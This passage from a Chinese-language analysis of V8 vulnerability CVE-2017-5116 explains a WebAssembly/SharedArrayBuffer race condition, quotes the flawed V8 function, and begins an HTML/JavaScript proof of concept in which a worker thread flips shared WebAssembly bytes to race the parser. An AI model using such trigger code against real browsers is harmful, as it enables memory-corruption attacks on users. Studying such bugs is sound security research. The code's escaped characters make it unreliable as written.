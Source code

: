 JavaScript代码能调用simple.wasm文件中导出的函数。

接下来，就开始介绍V8漏洞—CVE-2017-5116，该漏洞在chrome 61.0.3163.79版本被修复。

结合WebAssembly，SharedArrayBuffer 和Web worker 三个特点，通过条件竞争，可以触发一个越界访问bug，也就是该漏洞，触发流程如下：

[![](https://p4.ssl.qhimg.com/t013d6af89ebef82f97.png)](https://p4.ssl.qhimg.com/t013d6af89ebef82f97.png)

Worker线程将WebAssembly代码写入SharedArrayBuffer，然后传送给另一个web worker主线程，当主线程解析WebAssembly代码时，由于共享内存，worker线程此时可以修改此代码，从而造成越界访问问题。下面通过分析漏洞代码，来了解具体的细节。

```
i::wasm::ModuleWireBytes GetFirstArgumentAsBytes(
const v8::FunctionCallbackInfo&lt;v8::Value&gt;&amp; args, ErrorThrower* thrower) `{`
    ……
v8::Local&lt;v8::Value&gt; source = args[0];
if (source-&gt;IsArrayBuffer()) `{`
        ……
 `}` else if (source-&gt;IsTypedArray()) `{`//------&gt; source should be checked if it's backed by a SharedArrayBuffer
    // A TypedArray was passed.
    Local&lt;TypedArray&gt; array = Local&lt;TypedArray&gt;::Cast(source);
    Local&lt;ArrayBuffer&gt; buffer = array-&gt;Buffer();
    ArrayBuffer::Contents contents = buffer-&gt;GetContents();
    start =
    reinterpret_cast&lt;const byte*&gt;(contents.Data()) + array-&gt;ByteOffset();
    length = array-&gt;ByteLength();
 `}`
    ……
if (thrower-&gt;error()) return i::wasm::ModuleWireBytes(nullptr, nullptr);
return i::wasm::ModuleWireBytes(start, start + length);
`}`
```

漏洞发生在V8代码的wasm部分的GetFirstArgumentAsBytes函数，参数args可能是ArrayBuffer或者是TypedArray对象。当SharedArrayBuffer引入JavaScript之后，便可以被用来支撑TypedArray。代码中72行只是检查了souce是否是TypedArray，而没有检查是由SharedArrayBuffer作底层支持。这样一来，

TypedArray的内容随时可以被其他线程修改，而后续的解析操作，将会触发漏洞。

使用一个简单的PoC来说明如何触发漏洞。

```
&lt;html&gt;
&lt;h1&gt;poc&lt;/h1&gt;
&lt;script id="worker1"&gt;
worker:`{`
    if (typeof window 
=== 'object') break worker; // Bail if we're not a Worker
    self.onmessage = function(arg) `{`
      //%DebugPrint(arg.data);
      console.log("worker started");
      var ta = new Uint8Array(arg.data);
      //%DebugPrint(ta.buffer);
      var i =0;
      while(1)`{`
        if(i==0)`{`
          i=1;
          ta[51]=0; //------&gt;4)modify the webassembly code at the same time
        `}`else`{`
          i=0;
          ta[51]=128;
        `}`
      `}`
    `}`

```
